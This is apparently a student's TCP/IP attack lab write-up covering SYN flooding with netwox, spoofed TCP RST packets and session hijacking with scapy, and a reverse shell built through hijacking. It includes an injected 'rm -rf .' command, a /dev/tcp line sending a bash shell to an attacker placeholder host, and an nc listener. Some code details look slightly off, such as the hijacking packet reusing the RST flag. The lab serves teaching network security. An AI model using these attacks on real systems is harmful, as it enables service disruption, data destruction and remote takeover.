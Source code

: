 # TCP/IP Attack Lab

## Fei Guo

## SYN Flooding Attack

First, check if syncookies is on:
`sudo sysctl -a | grep cookie`

If on, turn off the syncookies:
`sudo sysctl -w net.ipv4.tcp_syncookies=0`

Run this to check the usage of the TCP queue:

`netstat -tna`

Note, a half-open connection will show an "SYN_RECV" state.

Then, use the netwox tool to launch the attack:

`sudo netwox 76 -i 10.0.2.4 -p 23 -s raw`

where -s raw means enabling IP spoofing.

##  Countermeasure: SYN Cookies

Turn on the syncookies and the attack will fail.

`sudo sysctl -w net.ipv4.tcp_syncookies=1`


## TCP RST Attacks on telnet Connections

On the same LAN, the attacker can use this to spoof a RST packet and disconnect a Telnect connection between two hosts:

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src=src_host, dst=dst_host)
tcp = TCP(sport=source_port, dport=dst_port, flags="R", seq=seq_num)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```
The same thing can be done for an SSH connection as well because SSH encryption are in the Transport layer (payload of TCP are encrypted), but a packet can still be sniffed and spoofed. If we want more security, a VPN can be used to encrypt the packet.

## TCP Session Hijacking

To hijack a Telnet connection, we can first sniff the packets between two hosts, and then spoof a packet with appended data that will be run as a command by the server.

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src=src_host, dst=dst_host)
tcp = TCP(sport=source_port, dport=dst_port, flags="R", seq=seq_num)
data = "\r rm -rf ." # delete all files on the server
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

## Creating Reverse Shell Using TCP Session Hijacking

The main point is to replace the data part in the previous piece of code with the following. It says that the server should redirect its input and output to a remote host:

`'/bin/bash -I /dev/tcp/<attacker_host>/9090 0<&1 2>&1'`

where attacker host has an open port listening to the traffic, that can be initialized with:
`nc -lnv 9090`

